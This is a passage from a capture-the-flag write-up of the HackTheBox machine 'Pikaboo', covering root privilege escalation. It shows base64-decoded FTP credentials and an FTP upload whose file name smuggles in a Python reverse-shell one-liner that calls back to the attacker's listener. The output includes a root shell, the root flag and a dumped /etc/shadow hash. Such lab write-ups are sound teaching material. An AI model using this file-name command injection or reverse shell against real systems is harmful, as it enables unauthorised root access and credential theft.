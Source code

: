 After searching the LDAP Tree, we found ‘Pwnmeow’ FTP credentials stored in base64 encoded format. Let’s decode them.

```other
(remote) www-data@pikaboo.htb:/opt/pokeapi/config$ echo -n 'X0cwdFQ0X0M0dGNIXyczbV80bEwhXw==' |base64 -d
_G0tT4_C4tcH_'3m_4lL!_
```

Now we can access FTP account. Let’s access it and drop a file with pipe character with reverse shell one-liner.

# Privilege Escalation - Root

```other
⛩\> ftp 10.129.95.157 21
Connected to 10.129.95.157.
220 (vsFTPd 3.0.3)
Name (10.129.95.157:kali): pwnmeow
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd versions
```

Create a test file on your kali linux, setup a netcat listener and run below commands.

```other
(local-file) test

(remote-file) "|python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("\"10.10.14.79\",9001));[os.dup2(s.fileno(),f)for\ f\ in(0,1,2)];pty.spawn(""\"sh\")';.csv"
local: test remote: |python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.31",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")';.csv

200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
```

Transfer completed successfully. Now check the netcat listener and read the root flag.

```other
⛩\> nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.31] from (UNKNOWN) [10.129.95.157] 57684
# cat /root/root.txt
cat /root/root.txt

71689b04630390cdbe9abde815311b77

# id
id
uid=0(root) gid=0(root) groups=0(root)

# cat /etc/shadow
cat /etc/shadow

root:$6$rmBpCrNSohpbrXpW$6XizSEcAl0ELQH28F21.V0cvZgWCNkatRbXCv5WNlIW2mkhECPM7wm1j.BRD.t7.Z5CQPvu19EGORXbpOnb540:18816:0:99999:7:::
```


